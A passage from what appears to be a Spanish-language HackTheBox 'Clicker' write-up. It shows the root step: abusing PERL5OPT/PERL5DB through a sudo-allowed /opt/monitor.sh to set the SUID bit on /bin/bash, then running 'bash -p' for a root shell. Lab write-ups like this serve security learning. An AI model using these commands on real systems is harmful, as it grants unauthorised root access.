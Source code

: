 ```bash
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
```

Qué básicamente le dará permisos **SUID** a la Bash de ROOT, aprovechándonos que el script **Monitor.sh** podemos ejecutarlo como ROOT, lo ejecutamos para básicamente ejecutar el código malicioso de PERL.

Una vez hecho esto, ya podemos obtener una consola como ROOT, tan sólo haciendo esto:

```bash
bash -p
```

![](/assets/images/htb-writeup-clicker/Pasted image 20231104155135.png])

